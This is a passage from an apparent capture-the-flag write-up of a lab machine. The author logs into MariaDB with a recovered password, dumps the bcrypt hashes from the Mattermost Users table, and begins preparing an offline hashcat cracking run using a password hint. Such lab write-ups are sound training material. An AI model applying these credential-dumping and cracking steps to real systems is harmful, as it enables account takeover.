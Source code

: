 ```
maildeliverer@Delivery:/$ mysql -u mmuser --password='Crack_The_MM_Admin_PW'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 91
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
```

MatterMost user accounts are stored in the `Users` table and hashed with bcrypt. We'll save the hashes then try to crack them offline.

```
MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| snowscan                         | $2a$10$spHk8ZGr54VWf4kNER/IReO.I63YH9d7WaYp9wjiRswDMR.P/Q9aa |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.002 sec)
```

## Cracking with rules

There was a hint earlier that some variation of `PleaseSubscribe!` is used.

I'll use hashcat for this and since I don't know the hash ID for bcrypt by heart I can find it in the help.

```
C:\bin\hashcat>hashcat --help | findstr bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System
```
